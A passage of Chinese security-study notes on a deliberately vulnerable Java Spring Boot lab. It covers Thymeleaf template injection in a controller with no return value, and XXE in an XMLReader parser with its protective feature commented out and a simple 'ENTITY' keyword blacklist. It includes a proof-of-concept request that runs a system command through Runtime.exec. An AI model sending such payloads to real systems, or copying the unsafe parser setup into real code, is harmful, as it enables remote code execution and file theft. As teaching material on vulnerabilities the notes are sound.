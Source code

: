 ## no return

> 根据 spring boot 定义，如果 controller 无返回值，则以 GetMapping 的路由为视图名称。  
> 当然，对于每个 http 请求来讲，其实就是将请求的 url 作为视图名称，调用模板引擎去解析。  
> 在这种情况下，我们只要可以控制请求的 controller 的参数，一样可以造成 RCE 漏洞。

源码如下

```bash
@RequestMapping("/noreturn/{content}")
    public void noReturn(String content) {
        System.out.println("ok");
    }
```

poc：`GET /home/ssti/noreturn/__$%7BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__::.x HTTP/1.1`  
此时依旧会爆出模板文件无法找到的错误  
[![](assets/1705886531-3a5a4246ea8f80bab7ccbea226c3752f.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579396956-b86ccd66-4a26-41be-9b27-2ac66c93a1ac.png#averageHue=%23e2e2e2&clientId=u5b490a61-0d9a-4&from=paste&height=70&id=ud029cd60&originHeight=105&originWidth=1123&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28806&status=done&style=none&taskId=u34978d8a-dee5-472d-a369-a84130a4545&title=&width=748.6666666666666)

# XXE

## xmlreader

XML 外部实体注入，当开发人员配置其 XML 解析功能允许外部实体引用时，攻击者可利用这一可引发安全问题的配置方式，实施任意文件读取、内网端口探测、命令执行、拒绝服务等攻击

```bash
public String XMLReader(@RequestBody String content, String entity) {
        try {
            if (entity !=null && entity.equals("true") && Security.checkXXE(content)) {
                return "检测到 XXE 攻击";
            }
            XMLReader xmlReader = XMLReaderFactory.createXMLReader();
            // 将功能 "http://apache.org/xml/features/disallow-doctype-decl" 设置为“真”时，不允许使用 DOCTYPE。
            // xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            xmlReader.parse(new InputSource(new StringReader(content)));
            return "XMLReader 解析成功";
        } catch (Exception e) {
            return e.toString();
        }
```

```bash
public static boolean checkXXE(String content) {
        String black = "ENTITY";
        return content.toUpperCase().contains(black);
    }
```
